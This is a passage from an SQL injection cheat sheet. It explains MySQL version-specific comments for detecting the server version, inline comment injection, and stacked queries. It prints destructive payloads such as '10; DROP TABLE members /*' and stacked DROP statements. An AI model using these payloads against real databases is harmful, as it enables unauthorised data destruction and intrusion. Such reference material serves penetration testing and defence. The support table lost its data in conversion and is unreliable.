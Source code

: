         
-   `/*! MYSQL Special SQL *`/ (M)  
    This is a special comment syntax for MySQL. It’s perfect for detecting MySQL version. If you put a code into this comments it’s going to execute in MySQL only. Also you can use this to execute some code only if the server is higher than supplied version.  
      
    `SELECT  /*!**32302**  1/0, */  1 FROM tablename`

##### Classical Inline Comment SQL Injection Attack Samples

-   ID:  `10; DROP TABLE members  /*`  
    Simply get rid of other stuff at the end the of query. Same as  `10; DROP TABLE members  --`  
      
    
-   `SELECT  /*!**32302**  1/0, */  1 FROM tablename`  
    Will throw an  **divison by 0 error** if MySQL version is higher than  **3.23.02**

##### MySQL Version Detection Sample Attacks

-   ID:  `/*!``**32302**  10*/`
-   ID:  `10`  
    You will get the  **same response**  if MySQL version is higher than  **3.23.02**  
      
    
-   `SELECT  /*!**32302**  1/0, */  1 FROM tablename`  
    Will throw an  **divison by 0 error** if MySQL version is higher than  **3.23.02**

### Stacking Queries

**Executing more than one query in one transaction**. This is very useful in every injection point, especially in SQL Server back ended applications.

-   `;`  (S)  
    `SELECT * FROM members; DROP members--`

Ends a query and starts a new one.

#### Language / Database Stacked Query Support Table

**green:**  supported,  **dark gray:**  not supported,  **light gray:** unknown

**SQL Server**

**MySQL**

**PostgreSQL**

**ORACLE**

**MS Access**

**ASP**

**ASP.NET**

**PHP**

**Java**

**About MySQL and PHP;**  
To clarify some issues;  
**PHP - MySQL doesn't support stacked queries**, Java doesn't support stacked queries (_I'm sure for ORACLE, not quite sure about other databases_).  _Normally MySQL supports stacked queries but because of database layer in most of the configurations it’s not possible to execute second query in PHP-MySQL applications or maybe MySQL client supports this, not quite sure. Can someone clarify?_
